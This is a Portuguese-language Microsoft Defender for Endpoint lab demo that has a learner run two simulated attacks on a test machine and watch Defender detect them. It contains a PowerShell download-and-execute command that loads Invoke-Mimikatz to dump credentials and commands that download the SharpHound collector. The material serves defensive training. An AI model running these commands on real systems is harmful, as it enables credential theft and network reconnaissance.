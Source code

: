 # Demonstração do Módulo 2: mitigar os ataques com o Microsoft Defender para Ponto de Extremidade

**Observação** A conclusão bem-sucedida desta demonstração depende da conclusão de todas as etapas no [Documento de pré-requisitos](00-prerequisites.md).

## Ataques simulados

Nesta tarefa, você executará dois ataques simulados para explorar os recursos do Microsoft Defender para Ponto de Extremidade.

1. Se você ainda não estiver no portal do Microsoft Defender XDR em seu navegador, acesse o Microsoft Defender XDR em (https://security.microsoft.com) conectado como Administrador do seu locatário.

Você executará os ataques *simulados* usando o *PowerShell* em *WIN1* para explorar os recursos do Microsoft Defender para Ponto de Extremidade.

`Attack 1: Mimikatz - Credential Dumping`

1. No computador *WIN1*, digite **Command** na barra de pesquisa e selecione **Executar como administrador**.

1. Na janela do terminal, copie e cole o comando a seguir na janela **Administrador: prompt de comando** e pressione **Enter** para executá-lo.

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. Você verá uma mensagem com a informação *Acesso negado* e uma mensagem pop-up de `Microsoft Defender Antivirus, Windows Security Virus and threats protection` exibindo *Ameaças encontradas*.

1. Saia da janela **Administrador: prompt de comando** digitando **sair** e pressionando **Enter**.

`Attack 2: Bloodhound - Collection`

1. No computador *WIN1*, digite **PowerShell** na barra de pesquisa, selecione **Windows PowerShell** e selecione **Executar como administrador**.

1. Copie e cole os comandos a seguir na janela **Administrador: Windows PowerShell** e pressione **Enter** para executá-los.

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

    >**Observação:** Recomenda-se copiar, colar e executar os comandos um de cada vez. Você pode abrir o *Bloco de notas* e copiar os comandos em um arquivo temporário para fazer isso. O primeiro comando cria uma pasta chamada *ExternalPayloads* na mesma pasta onde a pasta *Atomic Red Team* está localizada. O segundo comando baixa o arquivo *SharpHound.ps1* do repositório GitHub do *BloodHound* e o salva na pasta *ExternalPayloads*.

1. Você verá uma mensagem pop-up de `Windows Security Virus and threats protection` exibindo o texto *Ameaças encontradas*.

1. Na janela do terminal, copie e cole o comando a seguir na janela **Administrador: Windows PowerShell** e pressione **Enter** para executá-los.

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. Se a saída é *True*, o arquivo de payload de malware não foi removido pelo Microsoft Defender Antivirus. Se a saída é *False*, o arquivo de payload de malware foi removido pelo Microsoft Defender Antivirus. Use a tecla de seta para cima para repetir o comando até que a saída seja *False*.

## Você concluiu a demonstração
